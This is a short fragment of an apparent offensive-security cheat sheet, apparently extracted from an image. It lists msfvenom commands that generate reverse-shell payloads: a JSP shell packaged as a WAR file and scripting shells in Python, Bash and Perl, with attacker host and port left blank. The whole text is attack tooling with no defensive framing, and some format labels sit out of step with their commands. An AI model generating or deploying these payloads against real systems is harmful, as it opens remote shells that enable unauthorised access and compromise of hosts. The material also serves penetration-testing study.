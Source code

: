 - JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

- WAR

Scripting Payloads
------------------------------------------------------------

```bash
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

- Python

```bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

- Bash

```bash
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

- Perl

